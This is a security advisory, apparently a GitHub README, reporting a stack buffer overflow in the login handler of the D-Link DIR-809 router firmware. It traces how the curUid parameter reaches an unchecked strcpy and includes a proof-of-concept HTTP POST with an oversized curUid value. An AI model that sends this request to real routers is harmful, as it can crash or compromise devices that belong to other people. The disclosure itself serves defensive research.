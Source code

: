 # D-Link DIR809 Vulnerability

The Vulnerability is in page `/fromLogin` which influences the latest version of this router OS. 

The firmware version is [DIR-809Ax_FW1.12WWB03_20190410](http://www.dlinktw.com.tw/techsupport/ProductInfo.aspx?m=DIR-809) 

 ## Vulnerability description

In the function `sub_8003183C` ( page `/fromLogin` ), we find a stack overflow vulnerability, which allows attackers to execute arbitrary code on system via a crafted post request. 

Here is the description,  

1. The `get_var` function extracts user input from the a http request. For example, the code below will extract the value of the key "curUid" in the http post request which is completely under the attacker's control. 
2. The string `v4` obtained from user is then passed to `sub_800FE9CC` as the third argument. 
3. In the function `sub_800FE9CC`, argument `a3` is copied onto the stack using `strcpy` without any check. So we can make the stack buffer overflow in `v8`. (See the second figure below. )

![2021-05-10_10h03_30](README/2021-05-10_10h03_30.png)

![2021-05-10_10h05_24](README/2021-05-10_10h05_24.png)







## PoC

``` 
POST /formLogin.htm HTTP/1.1
Host: 192.168.0.1
Content-Length: 154
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.0.1/index.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: uid=HQLFFU3LE1
Connection: close

curTime=1620541879564&curUid=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&FILECODE=&VERIFICATION_CODE=&user_name=admin&loginpwd=4DD9824117635539BF66A03AB80A35FC&VER_CODE=
```





## Acknowledgment

Credit to  [@peanuts62](https://github.com/peanuts62), [@Yu3H0](https://github.com/Yu3H0/), [@Lnkvct](https://github.com/Lnkvct/IoT-poc) from Shanghai Jiao Tong University and TIANGONG Team of Legendsec at Qi'anxin Group.


